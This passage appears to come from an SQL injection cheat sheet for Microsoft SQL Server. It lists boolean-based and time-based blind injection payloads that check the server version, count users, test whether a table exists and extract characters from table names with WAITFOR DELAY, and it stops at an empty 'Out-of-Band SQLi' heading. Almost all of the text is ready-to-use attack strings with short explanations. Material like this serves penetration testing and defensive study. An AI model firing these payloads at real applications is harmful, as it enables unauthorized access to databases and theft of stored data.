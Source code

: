 **Boolean-Based SQLi**

*   **Checking MSSQL Version:** Evaluates to true if the MSSQL version starts with '8'.

    ```c
    ' AND SUBSTRING(@@version, 1, 1) = '8' -- -
    ```
*   **Determining the Number of Users:** Evaluates to true if there are more than 5 users in the database.

    ```c
    ' AND (SELECT COUNT(*) FROM sysusers) > 5 -- -
    ```
*   **Checking Existence of a Table:** Evaluates to true if the `users` table exists.

    ```c
    ' AND (SELECT COUNT(*) FROM sysobjects WHERE xtype='U' AND name='users') > 0 -- -
    ```
*   **Extracting Data from a Column:** Evaluates to true if the first character of the `users` table name is 'u'.

    ```c
    ' AND (SELECT SUBSTRING(name, 1, 1) FROM sysobjects WHERE xtype='U' AND name='users') = 'u' -- -
    ```

**Time-Based SQLi**

*   **Basic Time Delay Test:** Causes the SQL Server to wait for 5 seconds. If the response is delayed, the injection point is likely vulnerable.

    ```c
    '; WAITFOR DELAY '0:0:5' -- -
    ```
*   **Conditional Time Delay:** Causes a 5-second delay if the condition `1=1` is true.

    ```c
    '; IF (1=1) WAITFOR DELAY '0:0:5' -- -
    ```
*   **Checking MSSQL Version:** Causes a 5-second delay if the MSSQL version starts with '8'.

    ```c
    '; IF (SUBSTRING(@@version, 1, 1) = '8') WAITFOR DELAY '0:0:5' -- -
    ```
*   **Checking Existence of a Table:** Causes a 5-second delay if the `users` table exists.

    ```c
    '; IF EXISTS (SELECT * FROM sysobjects WHERE xtype='U' AND name='users') WAITFOR DELAY '0:0:5' -- -
    ```
*   **Extracting Data from a Column:** Causes a 5-second delay if the first character of the `users` table name is 'u'.

    ```c
    '; IF (SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1)='u') WAITFOR DELAY '0:0:5' -- -
    ```

**Out-of-Band SQLi**
